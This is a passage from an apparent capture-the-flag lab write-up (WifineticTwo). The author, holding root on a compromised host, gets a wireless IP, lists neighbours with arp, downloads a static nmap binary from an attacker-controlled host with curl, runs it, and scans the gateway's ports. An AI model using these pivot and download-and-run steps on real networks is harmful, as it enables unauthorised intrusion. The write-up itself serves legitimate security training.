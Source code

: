 `dhclient` will get an IP over DHCP:

```

root@attica02:/root# dhclient
RTNETLINK answers: File exists
root@attica02:/root# ifconfig wlan0
wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.46  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::ff:fe00:300  prefixlen 64  scopeid 0x20<link>
        ether 02:00:00:00:03:00  txqueuelen 1000  (Ethernet)
        RX packets 18  bytes 3043 (3.0 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 24  bytes 3980 (3.9 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```

### Network Enumeration

#### Identify Host

It’s probably safe to assume the host IP is 192.168.1.1, but I can look more definitively with `arp` to see what is being talked to:

```

root@attica02:/root# arp -a
attica02 (10.0.3.44) at <incomplete> on eth0
? (192.168.1.1) at 02:00:00:00:01:00 [ether] on wlan0
? (10.0.3.1) at 00:16:3e:00:00:00 [ether] on eth0

```

#### nmap

I’ll upload a statically compiled `nmap` binary to WifineticTwo (hosting it on a Python webserver on my host):

```

root@attica02:~# curl 10.10.14.6/nmap > nmap
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 5805k  100 5805k    0     0  5727k      0  0:00:01  0:00:01 --:--:-- 5730k

```

I’ll set it as executable and scan the `.1`:

```

root@attica02:~# chmod +x nmap 
root@attica02:~# ./nmap -p- --min-rate 10000 192.168.1.1

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2024-07-21 20:23 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 192.168.1.1
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.000023s latency).
Not shown: 65531 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
53/tcp  open  domain
80/tcp  open  http
443/tcp open  https
MAC Address: 02:00:00:00:01:00 (Unknown)
```